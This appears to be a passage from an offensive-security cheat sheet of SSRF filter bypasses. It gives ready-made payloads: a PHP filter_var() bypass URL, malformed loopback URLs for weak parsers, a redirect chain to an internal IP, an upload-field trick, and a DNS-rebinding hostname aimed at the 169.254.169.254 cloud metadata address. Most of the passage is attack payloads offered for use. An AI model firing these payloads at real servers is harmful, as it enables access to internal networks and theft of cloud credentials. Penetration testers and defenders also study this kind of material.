 ## **Bypass using unicode**

In some languages (.NET, Python 3) regex supports unicode by default. `\d` includes `0123456789` but also `๐๑๒๓๔๕๖๗๘๙`.

## **Bypass filter_var() php function**

```
0://evil.com:80;http://google.com:80/
```

## **Bypass against a weak parser**

```
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

## **Bypassing using a redirect**

```
1. Create a page on a whitelisted host that redirects requests to the SSRF the target URL (e.g. 192.168.0.1)

2. Launch the SSRF pointing to  vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1

3. You can use response codes 

[307](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307) 

and 

[308](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/308)

in order to retain HTTP method and body after the redirection.
```

## **Bypassing using type=url**

```
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

## **Bypassing using DNS Rebinding (TOCTOU)**

```
Create a domain that change between two IPs. http://1u.ms/ exists for this purpose.
For example to rotate between 1.2.3.4 and 169.254-169.254, use the following domain:
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```
